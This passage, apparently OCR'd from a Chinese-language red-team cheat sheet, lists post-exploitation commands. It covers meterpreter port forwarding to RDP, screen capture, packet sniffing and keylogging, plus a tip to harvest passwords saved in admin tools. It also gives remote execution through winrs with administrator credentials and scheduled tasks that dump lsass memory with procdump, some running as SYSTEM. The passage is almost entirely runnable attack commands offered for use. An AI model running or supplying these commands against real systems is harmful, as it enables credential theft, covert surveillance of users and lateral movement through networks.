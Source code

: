 > > portfwd add -L 0.0.0.0 4443 -p 3389 -r 192.168.2.100
>
> ### Msf 截屏(没被 360 拦没提示，或许有意外收获)
>
> > meterpreter > use espia
> >
> > meterpreter > screengrab
>
> ### Msf 嗅探
>
> > meterpreter > use sniffer
> >
> > meterpreter > sniffer_interfaces
> >
> > meterpreter > sniffer_start 5
> >
> > meterpreter > sniffer_dump 5 /tmp/1.pcap
> >
> > meterpreter > sniffer_stop 5
>
> ### 键盘记录
>
> Msf 键盘记录在 win 不会创建新进程
>
> > meterpreter > keyscan_start 
> >
> > meterpreter > keyscan_dump 
> >
> > meterpreter > keyscan_stop 
>
> Keylogger (tip: 可以把管理工具，如 navicat, putty, SecureCRT, PLSQL 设置记住密码) --redrain ixkeylog
>
> linux>=2.63 推荐 --redrain 
>
> ### 远程命令执行
>
> > at\schtasks\psexec\wmic\sc\ps
>
> 2012 r2 起,默认端口 5985,系统自带远程管理 winrs
>
> > winrs -r:192.168.1.100 -u:administrator -p:pwd ipconfig
>
> 这里 schtasks 用着很舒服，
>
> > schtasks /create /tn mytask /tr F:\Desktop.exe /sc minute /mo 1  每分运行1次
>
> 如果程序有参数用引号 
>
> > "C:\procdump64.exe -accepteula -ma lsass.exe lsass.dmp"
>
> ``/RU`` 可以以 system 启动，例如 
>
> > schtasks /Create /TN test /SC DAILY /ST 00:09 /TR notepad.exe /RU SYSTEM
>
> > schtasks /create /tn mytask /tr "C:\procdump64.exe -accepteula -ma lsass.exe lsass.dmp" /sc minute /mo 2
>
> > schtasks /Query /TN mytask
>
> > net time
>
> > schtasks /Query /TN mytask
>
> > schtasks /Delete /TN mytask /F